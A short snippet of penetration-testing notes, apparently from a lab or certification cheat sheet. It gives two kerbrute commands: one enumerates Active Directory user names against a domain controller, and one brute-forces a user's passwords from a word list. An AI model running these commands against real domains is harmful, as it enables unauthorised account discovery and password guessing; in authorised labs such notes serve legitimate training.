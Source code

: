 ## Bruteforce user names from user list

```
kerbrute userenum --dc 10.10.10.175 -d EGO.LOCAL users.txt
```


--> Note, if user does not exist, then kerbrute is smart enough to skip user
```
kerbrute -domain THINC.LOCAL -dc-ip 10.11.1.220 -user alice -passwords password.txt
 -debug
```

